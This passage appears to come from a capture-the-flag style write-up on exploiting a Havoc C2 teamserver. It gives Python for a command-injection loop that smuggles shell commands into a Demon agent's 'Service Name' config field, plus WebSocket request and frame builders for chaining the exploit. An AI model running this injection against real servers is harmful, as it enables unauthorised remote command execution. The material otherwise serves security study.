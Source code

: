 ```python
```

Command injection loop

```python
while True:
    cmd = input("$ ")
    injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
    
    payload = {
        "Body": {
            "Info": {
                "AgentType": "Demon",
                "Config": "... Service Name\":\"" + injection + "\"..."
            }
        }
    }
```

## Chaining the Scripts

First we have to add 2 functions. The websocket request and the websocket frame. The `def create_websocket_request`. This builds the HTTP GET request to upgrade to WebSocket.

```python
def create_websocket_request(host, port):
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request
```

The second function is the `build_websocket_frame` which creates a WebSocket frame to send a payload over an openen WebSocket connection. This is the standard way WebSocket requires messages to be formatted before sending them over the network. In this case we will format JSON data which Havoc uses to WebSocket format.

```python
def build_websocket_frame(payload):
    data = payload.encode("utf-8")
    frame = bytearray([0x81])  # FIN + Text frame
    
    # Handle length
    if len(data) <= 125:
        frame.append(0x80 | len(data))
    elif len(data) <= 65535:
        frame.extend([0x80 | 126] + list(len(data).to_bytes(2, 'big')))
    else:
        frame.extend([0x80 | 127] + list(len(data).to_bytes(8, 'big')))
    
    # Mask data
    mask = os.urandom(4)
    frame.extend(mask)
    frame.extend(b ^ mask[i % 4] for i, b in enumerate(data))
    
    return bytes(frame)
```
